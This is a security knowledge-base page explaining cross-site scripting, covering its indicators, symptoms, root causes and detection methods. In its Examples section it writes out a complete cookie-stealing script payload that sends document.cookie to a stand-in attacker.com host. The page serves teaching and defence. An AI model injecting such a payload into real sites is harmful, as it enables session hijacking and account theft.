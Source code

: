 ```yaml
---
title: Cross-Site Scripting Vulnerabilities
description: Inadequate input validation and output encoding allows attackers to inject
  malicious scripts that execute in users' browsers.
category:
- Security
- Technical
related_problems:
- slug: sql-injection-vulnerabilities
  similarity: 0.546
- slug: log-injection-vulnerabilities
  similarity: 0.54
layout: problem
---
```


## Description

Cross-Site Scripting (XSS) vulnerabilities occur when web applications fail to properly validate user input or encode output, allowing attackers to inject malicious scripts that execute in other users' browsers. These vulnerabilities can lead to session hijacking, data theft, defacement, or other malicious activities performed in the context of the victim's browser session.

## Indicators ⟡

- User input displayed in web pages without proper encoding
- JavaScript code can be injected through form fields or URL parameters
- Dynamic content generation without input sanitization
- Client-side data validation without corresponding server-side validation
- User-generated content displayed without security filtering

## Symptoms ▲

- **Script Injection:** Malicious JavaScript code executed in user browsers
- **Session Token Theft:** Attackers stealing session cookies through injected scripts
- **Page Defacement:** Unauthorized modification of web page content
- **Phishing Attacks:** Fake login forms or content injected to steal credentials
- **Malicious Redirects:** Users redirected to attacker-controlled websites

## Root Causes ▼

- **Insufficient Input Validation:** User input not properly validated or sanitized before processing
- **Missing Output Encoding:** Dynamic content not encoded appropriately for the output context
- **Direct DOM Manipulation:** Client-side code directly inserting user data into the DOM
- **Inadequate Content Security Policy:** Missing or weak CSP headers allowing script execution
- **Server-Side Template Injection:** Template engines processing user input without proper escaping
- **Third-Party Component Vulnerabilities:** Vulnerable JavaScript libraries or frameworks

## Detection Methods ○

- **Input Validation Testing:** Test all input fields and parameters for script injection
- **Output Encoding Analysis:** Review how user data is displayed and encoded in responses
- **Automated Security Scanning:** Use security scanners to identify potential XSS vulnerabilities
- **Code Review for XSS Patterns:** Review code for common XSS vulnerability patterns
- **Content Security Policy Testing:** Verify CSP effectiveness in preventing script injection

## Examples

A blog application displays user comments directly in HTML without encoding special characters. An attacker posts a comment containing `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` which executes in every visitor's browser, sending their session cookies to the attacker's server. The attacker can then use these session cookies to impersonate users and access their accounts. Another example involves a search function that displays the search term in the results page like "Results for: [user input]". An attacker crafts a malicious URL with JavaScript in the search parameter. When victims click the link, the script executes and can perform actions on behalf of the user, such as changing account settings or making unauthorized transactions.